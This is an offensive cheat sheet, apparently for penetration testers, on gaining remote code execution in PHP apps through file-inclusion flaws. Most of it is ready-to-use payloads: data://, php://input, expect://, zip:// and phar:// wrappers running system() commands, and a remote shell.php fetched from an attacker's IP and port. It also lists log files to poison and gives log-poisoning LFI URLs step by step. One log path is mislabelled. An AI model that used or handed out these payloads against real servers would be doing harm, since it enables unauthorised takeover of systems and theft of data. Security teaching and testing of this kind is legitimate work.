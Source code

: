 ```yaml
---
legal-banner: true
---
```


### **Introduction**

Remote Code Execution (RCE) is a vulnerability that enables an attacker to execute arbitrary commands on a remote system. This exploit allows the attacker to manipulate or access data, disrupt system operations, or gain elevated privileges.

### **Remote Code Execution (RCE) Techniques**

1.  Data Wrapper: Executes commands encoded directly in the URL.  
    `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==&cmd=id`
    
2.  Input Wrapper: Runs commands from data sent in a web request.  
    `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://[DOMAIN_NAME]/index.php?language=php://input&cmd=whoami"`
    
3.  Expect Wrapper: Executes commands using the Expect PHP wrapper.  
    `curl -s "http://[DOMAIN_NAME]/index.php?language=expect://id"`
    
4.  Remote PHP Shell: Uses a remote PHP script to execute commands.  
    `/index.php?language=http://[IP-ADDRESS]:[LISTENING-PORT]/shell.php&cmd=id`
    
5.  Malicious Image Upload: Executes code hidden within an image file.  
    `/index.php?language=./profile_images/shell.gif&cmd=id`
    
6.  Malicious ZIP Upload: Runs PHP code hidden inside a ZIP file.  
    `/index.php?language=zip://shell.zip#shell.php&cmd=id`
    
7.  Malicious PHAR Upload: Executes code from a PHP archive disguised as an image file.  
    `/index.php?language=phar://./profile_images/shell.jpg/shell.txt&cmd=id`
    

### **Target Logs for RCE Poisoning**

Logs vulnerable to RCE poisoning often include user inputs or error information:

1.  Access Logs:  
    `/var/log/apache2/access.log`, `/var/log/httpd-access.log`
2.  Error Logs:  
    `/var/log/apache2/error.log`, `/var/log/apache/error.log`
3.  Logs to Tracks authentication attempts.  
    `/var/log/auth.log`
4.  Logs security details, used in systems with SELinux.  
    `/var/log/secure`
5.  Logs For web applications.  
    `/var/www/logs/access_log`
6.  Logs for Webmin tool.  
    `/var/webmin/miniserv.log`
7.  Logs from Lighttpd web server.  
    `/var/log/lighttpd/access.log`
8.  Logs from ProFTPD server.  
    `/var/log/lighttpd/access.log` -

### **Step-by-Step: RCE via Log Poisoning**

1.  Inject the Payload: This involves modifying the User-Agent string, other header fields, or the content of a request that you know will be logged.  
    `<?php system($_GET['cmd']); ?>`.
    
2.  Exploit LFI Vulnerability: Use an existing Local File Inclusion (LFI) vulnerability to include the poisoned log file in a web page's execution path.  
    `http://[DOMAIN_NAME]/index.php?file=../../../../var/log/apache2/access.log`
    
3.  Execute the Payload: Add a command to the URL as a parameter if the payload is designed to be executed via a GET request.  
    `http://[RFI-URL]/vulnerable_page.php?file=../../../../var/log/apache2/access.log&cmd=whoami`